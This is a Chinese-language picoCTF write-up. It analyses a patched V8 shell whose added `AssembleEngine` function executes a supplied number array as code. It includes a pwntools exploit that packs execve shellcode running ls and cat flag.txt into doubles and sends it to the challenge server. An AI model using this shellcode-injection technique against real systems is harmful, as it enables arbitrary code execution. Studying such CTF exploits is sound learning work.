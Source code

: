 1. diff
從patch file可以看得出來他新實作了三個function: `uint64_t doubleToUint64_t(double d)`, `void Shell::Breakpoint(const v8::FunctionCallbackInfo<v8::Value>& args)`, `void Shell::AssembleEngine(const v8::FunctionCallbackInfo<v8::Value>& args)`，其中`Breakpoint`和`AssembleEngine`都是繼承Shell class，然後`AssembleEngine`需要傳入args的參數
2. Analyze `AssembleEngine` Function
在patch的33行中，會判斷傳入的args是不是array，然後array中每一個element都要是number，接著就會把value放到前面定義的func(其實就是function pointer)，再後面的for loop做的事情是把func中每一個element轉data type，從double轉成unsinged integer 64，接著就直接call這個function
3. Construct Payload
基於以上觀察，我們知道`AssembleEngine`可以直接執行我們給他的shellcode，只不過需要花心思在他的data type檢查，也就是args需要是array，且每一個element都必須是double才行

## Exploit - Build Shell Code & Transfer Data Type
```python=
from pwn import *
import struct

context.arch = 'amd64'

if args.REMOTE:
    ls = asm(shellcraft.execve(b"/bin/ls", ["ls"]))
    cat = asm(shellcraft.execve(b"/bin/cat", ["cat", "flag.txt"]))
    r = remote('mercury.picoctf.net', 48700)
else:
    ls = b'H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.cho.mr\x01H1\x04$H\x89\xe7hmr\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
    cat = b'j\x01\xfe\x0c$H\xb8/bin/catPH\x89\xe7h.txtH\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8b`u\x01gm`fH1\x04$1\xf6Vj\x0c^H\x01\xe6Vj\x10^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
    r = process(['python', 'server.py'])
log.info(f'ls shellcode: {ls}')
log.info(f'cat flag.txt shellcode: {cat}')

def Transfer2DoubleArray(shellcode):
    shell_array = []
    if len(shellcode) % 8 > 0:
        shellcode += (8 - len(shellcode) % 8) * b'\x00'
    for i in range(0, len(shellcode), 8):
        double_tmp = struct.unpack('d', shellcode[i:i+8])[0]
        shell_array.append(double_tmp)
    
    return shell_array



payload = f'AssembleEngine({Transfer2DoubleArray(ls)})'
r.recvuntil(b'Provide size. Must be < 5k:')
r.sendline(str(len(payload)).encode())
r.recvline()
r.sendline(payload.encode())
print(r.recvall().decode())
r.close()

if args.REMOTE:
    r = remote('mercury.picoctf.net', 48700)
else:
    r = process(['python', 'server.py'])
payload = f'AssembleEngine({Transfer2DoubleArray(cat)})'
r.recvuntil(b'Provide size. Must be < 5k:')
r.sendline(str(len(payload)).encode())
r.recvline()
r.sendline(payload.encode())
print(r.recvall().decode())
```